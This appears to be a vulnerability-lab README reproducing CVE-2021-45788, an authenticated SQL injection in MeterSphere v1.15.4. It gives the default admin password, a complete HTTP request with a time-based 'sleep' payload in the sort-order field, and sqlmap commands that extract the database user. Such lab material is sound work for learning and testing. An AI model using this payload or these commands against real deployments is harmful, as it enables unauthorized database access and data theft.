 # MeterSphere v1.15.4 Authenticated SQL Injection (CVE-2021-45788)

[中文版本(Chinese version)](README.zh-cn.md)

MeterSphere is a one-stop open source continuous testing platform under the GPL v3 open source license.

In the version v1.15.4 and before, MeterSphere's testcase related APIs have order-by based SQL injection.

References:

- <https://github.com/metersphere/metersphere/issues/8651>

## Vulnerable environment

Execute following command to start a MeterSphere server v1.15.4:

```
docker compose up -d
```

After the server is fully initialized, you can see the login page of MeterSphere on `http://your-ip:8081`.

## Exploit

Firstly, login to the panel by username `admin` and password `metersphere`.

Add a new testcase at `http://your-ip:8081/#/track/case/all`:

![](1.png)

Then, send the following request to test if SQL injection exists (replace csrf token and session id with yours):

```
POST /test/case/list/1/10 HTTP/1.1
Host: localhost.lan:8081
Content-Length: 3142
Accept: application/json, text/plain, */*
CSRF-TOKEN: [Your CSRF Token]
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: MS_SESSION_ID=[Your Session ID]
Connection: close

{"orders":[{"name":"name","type":",if(1=1,sleep(2),0)"}],"components":[{"key":"name","name":"MsTableSearchInput","label":"commons.name","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"tags","name":"MsTableSearchInput","label":"commons.tag","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"module","name":"MsTableSearchInput","label":"test_track.case.module","operator":{"value":"like","options":[{"label":"commons.adv_search.operators.like","value":"like"},{"label":"commons.adv_search.operators.not_like","value":"not like"}]}},{"key":"priority","name":"MsTableSearchSelect","label":"test_track.case.priority","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"P0","value":"P0"},{"label":"P1","value":"P1"},{"label":"P2","value":"P2"},{"label":"P3","value":"P3"}],"props":{"multiple":true}},{"key":"createTime","name":"MsTableSearchDateTimePicker","label":"commons.create_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"updateTime","name":"MsTableSearchDateTimePicker","label":"commons.update_time","operator":{"options":[{"label":"commons.adv_search.operators.between","value":"between"},{"label":"commons.adv_search.operators.gt","value":"gt"},{"label":"commons.adv_search.operators.ge","value":"ge"},{"label":"commons.adv_search.operators.lt","value":"lt"},{"label":"commons.adv_search.operators.le","value":"le"},{"label":"commons.adv_search.operators.equals","value":"eq"}]}},{"key":"creator","name":"MsTableSearchSelect","label":"api_test.creator","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"},{"label":"commons.adv_search.operators.current_user","value":"current user"}]},"options":{"url":"/user/list","labelKey":"name","valueKey":"id"},"props":{"multiple":true}},{"key":"reviewStatus","name":"MsTableSearchSelect","label":"test_track.review_view.execute_result","operator":{"options":[{"label":"commons.adv_search.operators.in","value":"in"},{"label":"commons.adv_search.operators.not_in","value":"not in"}]},"options":[{"label":"test_track.review.prepare","value":"Prepare"},{"label":"test_track.review.pass","value":"Pass"},{"label":"test_track.review.un_pass","value":"UnPass"}],"props":{"multiple":true}}],"filters":{"reviewStatus":["Prepare","Pass","UnPass"]},"planId":"","nodeIds":[],"selectAll":false,"unSelectIds":[],"selectThisWeedData":false,"selectThisWeedRelevanceData":false,"caseCoverage":null}
```

As you can see, a 2 seconds sleep successful:

![](2.png)

Use SQLMap to retrieve the database username:

```
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3
python sqlmap.py -r req.txt --dbms mysql --technique T --prefix , --level 3 --current-user
```

![](3.png)
